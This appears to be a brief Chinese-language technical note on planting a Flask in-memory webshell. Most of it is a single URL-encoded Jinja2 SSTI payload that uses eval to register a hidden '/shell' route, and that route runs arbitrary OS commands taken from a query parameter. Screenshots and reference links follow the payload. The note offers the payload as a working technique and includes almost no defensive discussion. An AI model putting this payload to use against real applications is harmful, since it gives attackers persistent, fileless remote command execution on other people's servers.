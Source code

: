 # python flask 内存马

先起一个带有ssti的flask：

插入路由：

```
http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```

![image-20210329220308313](python flask 内存马.assets/image-20210329220308313.png)

访问植入的shell：

![image-20210329220246511](python flask 内存马.assets/image-20210329220246511.png)

参考：

https://github.com/iceyhexman/flask_memory_shell

https://segmentfault.com/a/1190000022175553

https://xz.aliyun.com/t/8029
